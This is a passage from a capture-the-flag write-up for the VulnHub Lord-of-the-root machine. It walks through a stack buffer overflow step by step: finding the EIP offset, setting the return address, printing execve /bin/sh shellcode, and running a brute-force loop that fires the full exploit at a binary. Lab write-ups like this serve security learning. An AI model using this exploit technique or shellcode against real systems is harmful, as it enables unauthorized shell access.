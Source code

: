	# Determine Pattern Address 
	# Or you can just look at where program crashed <0xADDRESS in ?? ()>
	i r eip
	```
	- Pattern Address: `0x41376641`
	- Return Address: `0xbfb82e80`
		- Little Endian: `\x80\x2e\xb8\xbf`
5. Determine EIP offset
	```
	msf-pattern_offset -q 0x41376641
	```
	- EIP offset: 171
6. Ensure EIP offset
	```
	run  $(python -c 'print "A" * 171 + "B" * 4 + "C" * 200')
	```
7. Shellcode
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/bof]
	└─# cat shellcode | sed 's/"//g' | tr -d '\n'
	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
	```
8. Exploit
	```
	for x in {1..1000}; do env - /SECRET/door3/file $(python -c 'print "A"*171 + "\x80\x2e\xb8\xbf" + "\x90" * 20000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'); done
	```

	
---
Tags: #port-knocking #exploit/sqli/database-enum #linux-priv-esc/mysql #linux-priv-esc/kernel-exploit 

---


